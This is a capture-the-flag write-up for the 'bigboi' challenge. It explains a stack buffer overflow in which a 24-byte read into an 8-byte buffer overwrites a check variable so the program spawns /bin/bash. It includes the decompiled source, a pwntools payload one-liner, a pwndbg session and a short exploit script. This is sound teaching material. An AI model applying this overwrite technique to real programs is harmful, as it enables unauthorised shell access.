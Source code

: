 # bigboi

## Enumeration

**24** bytes is being read into an **8** byte buffer, allowing a clobber of the **target** variable to pass the check and execute `/bin/bash`. 

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 buffer;
  undefined8 local_30;
  undefined4 uStack_28;
  int target;
  undefined4 local_20;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 40);
  buffer = 0;
  local_30 = 0;
  local_20 = 0;
  uStack_28 = 0;
  target = L'\xdeadbeef';
  puts("Are you a big boiiiii??");
  read(0,&buffer,24); // VULN
  if (target == L'\xcaf3baee') {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (canary != *(long *)(in_FS_OFFSET + 40)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

## Manual Exploitation

**20** Bytes of padding allows us to change `0xdeadbeef` to `0xcaf3baee`. 

```bash
python3 -c 'import pwn;print(b"A"*20 + pwn.p32(0xcaf3baee))' > payload
```

Check comparison is at `main+103`.
`
```
pwndbg> disassemble main
   ...
   0x00000000004006a5 <+100>:   mov    eax,DWORD PTR [rbp-0x1c]
   0x00000000004006a8 <+103>:   cmp    eax,0xcaf3baee
   ...
   
pwndbg> b *(main+103)
Breakpoint 1 at 0x4006a8
```

Running with the payload as input clobbers the area as expected and skip the `jne`.

```
pwndbg> r < payload
...
 ► 0x4006a8 <main+103>    cmp    eax, 0xcaf3baee     0xcaf3baee - 0xcaf3baee
   0x4006ad <main+108>    jne    main+122                    <main+122>
...
```

## Automating Exploitation

Python exploit script

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'ERROR'

context.binary = elf = ELF("./boi", checksec=False)
p = process()

payload = b"A"*20 + p32(0xcaf3baee)

p.sendline(payload)
p.interactive()
```